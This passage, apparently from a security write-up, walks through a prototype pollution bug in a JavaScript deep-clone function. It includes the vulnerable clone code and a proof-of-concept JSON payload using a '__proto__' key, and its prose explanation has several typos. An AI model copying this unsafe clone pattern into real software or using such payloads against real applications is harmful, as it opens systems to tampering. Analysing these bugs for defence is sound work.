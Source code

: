 ```javascript
        } else {
            var proto = Object.getPrototypeOf(obj);
            if (proto && proto.isImmutable) {
                newObj = obj;
            } else {
                newObj = Object.create(proto);
                cloneDeep = true;
            }
        }
    } else {
        newObj = [];
        cloneDeep = true;
    }

    if (cloneDeep) {
        var keys = Object.getOwnPropertyNames(obj);
        for (var i = 0; i < keys.length; ++i) {
            var key = keys[i];
            var descriptor = Object.getOwnPropertyDescriptor(obj, key);
            if (descriptor && (descriptor.get || descriptor.set)) {
                Object.defineProperty(newObj, key, descriptor);
            } else {
                newObj[key] = clone(obj[key]);
            }
        }
    }
    return newObj;
}

var payload = '{"__proto__":{"oops":"It works !"}}';
var oldObj = JSON.parse(payload);
console.log(oldObj.oops);
var newObj = clone(oldObj);
console.log(newObj.oops);
```

After execute this `js` code, you'll find that js try to access `oops` attribute in `oldObj` before calling `clon()`. The result is `undefined`, however the new object `neObj` after `clone()`, we can access attribute `oops` which should not exist.

Obviously, attribute `__proto__` is a default attribute in `ogj`, so `__proto__` will not be enumerated, but after calling `clone()`, this will make `newObj` structure changed, that make `__proto__` exist in `newObj` by calling `Object.getOwnPropertyNames(obj);`.

![](https://i.imgur.com/PV4rCxn.png)

In this case, 3 object all call `xxx.hasOwnProperty('__proto__')` function, but only `oldObj` return `true`.

When calling `Object.getPrototypeOf(xxx)`, only `newObj` & `oriObj` return `Object {oops: "It works !"}`, `oldObj` return `Object {constructor: , __defineGetter__: , __defineSetter__: , hasOwnProperty: , __lookupGetter__: , …}`.
